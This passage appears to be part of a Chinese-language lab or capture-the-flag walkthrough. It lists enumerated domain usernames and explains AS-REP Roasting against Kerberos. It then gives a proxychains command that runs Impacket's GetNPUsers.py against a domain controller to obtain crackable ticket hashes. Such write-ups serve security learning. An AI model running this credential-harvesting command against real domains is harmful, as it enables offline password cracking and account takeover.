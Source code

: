 ```plain
manzhi
xiangdong
weihui
xingquan
miaoshu
gongwan
qijie
shaoting
xiqi
jinghong
qianyou
chuhua
yanyue
huangjia
zhouchun
jiyu
wendong
heyuan
mazhen
shouchun
liuzhe
fengbo
taigongyuan
gesheng
songming
yuwan
diaowei
youyi
rongxianyu
fuyi
linli
weixue
hejuan
zuoqiutai
siyi
shenshan
tongdong
```

## 攻击域成员二(AS-REP Roasting)

提示了Kerberos，这里参考[https://misakikata.github.io/2020/08/%E5%86%85%E7%BD%91%E6%B8%97%E9%80%8F%E6%A8%AA%E8%A1%8C%E7%A7%BB%E5%8A%A8/。](https://misakikata.github.io/2020/08/%E5%86%85%E7%BD%91%E6%B8%97%E9%80%8F%E6%A8%AA%E8%A1%8C%E7%A7%BB%E5%8A%A8/%E3%80%82)

AS\_REP Roasting是一种对用户账户进行离线爆破的方式，需要关闭预身份验证，而此选项又是默认开启的，所以有一定的限制，默认开启的预身份验证是会记录密码错误次数来防止爆破的，关闭预身份验证后，在进行AS\_REQ之后的时候，KDC不会进行任何验证就将TGT和用该用户Hash加密的Login Session Key返回，由于AS\_REP的数据包中Login Session Key的是由用户Hash进行加密的，因此，可以对获取到的用户Hash加密的Login Session Key进行离线爆破，得到对应用户的明文密码。

使用GetNPUsers来获取用户kerberos票证

```plain
proxychains python3 GetNPUsers.py -dc-ip 172.22.6.12 -usersfile 1.txt xiaorang.lab/
```
